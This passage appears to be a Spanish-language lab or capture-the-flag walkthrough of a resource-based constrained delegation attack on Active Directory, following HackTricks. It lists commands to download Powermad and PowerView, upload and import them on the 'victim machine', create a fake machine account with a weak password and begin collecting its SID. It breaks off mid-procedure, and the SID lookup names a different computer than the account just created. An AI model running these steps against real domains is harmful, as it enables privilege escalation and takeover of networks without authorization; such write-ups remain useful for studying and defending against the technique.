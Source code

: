 Nos apoyaremos en hacktricks para hacer esto:

```bash
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
```

entonces lo primero es instalar y obtener lo que necesitamos, por un lado Powermad y Powerview.

Descargamos el RAW del Powermad en nuestro equipo:

```bash
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```

Agregamos a la maquina victima el Powermad

```bash
upload  /Powermad.ps1
```

Lo vamos a ejecutar

```bash
Import-Module .\Powermad.ps1
```

vamos a usar el Powerview para enumerar la parte del AD:

```bash
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

lo traremos a la maquina nuestra:

```bash
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

y  lo cargaremos en la maquina Windows:

```bash
upload /PowerView.ps1
```

finalmente lo vamos a ejecutar:

```bash
Import-Module .\PowerView.ps1
```

y vamos a empezar con el proceso, los proximos comandos simplemente se ejecutan desde a maquina victima:

```bash
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

```bash
Get-DomainComputer SERVICEA
```

```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
```
